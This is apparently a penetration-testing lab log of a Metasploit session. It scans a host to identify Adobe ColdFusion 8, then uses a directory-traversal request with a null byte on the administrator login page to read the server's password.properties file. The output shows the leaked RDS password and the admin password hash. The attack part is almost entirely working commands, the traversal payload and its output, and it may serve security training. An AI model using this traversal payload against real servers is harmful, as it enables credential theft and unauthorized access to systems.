

msf exploit(xampp_webdav_upload_php) > use auxiliary/scanner/http/coldfusion_version
msf auxiliary(coldfusion_version) > show options
Module options (auxiliary/scanner/http/coldfusion_version):
Name Current Setting Required Description
---- --------------- -------- -----------
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target address range or CIDR identifier
RPORT 80 yes The target port
SSL false no Negotiate SSL/TLS for outgoing connections
THREADS 1 yes The number of concurrent threads
VHOST no HTTP server virtual host
msf auxiliary(coldfusion_version) > set rhosts 10.11.1.10
rhosts => 10.11.1.10
msf auxiliary(coldfusion_version) > exploit
[+] 10.11.1.10: Adobe ColdFusion 8 (Windows (Microsoft-IIS/6.0))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


[*] URL: 10.11.1.10/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
[+] 10.11.1.10 FILE: #Fri Sep 23 18:27:15 PDT 2011
rdspassword=8(^\:(B\#ILU\\]AE2F+L;']2J %]*\:X\\A\=>\n
password=AAFDC23870ECBCD3D557B6423A8982134E17927E
encrypted=true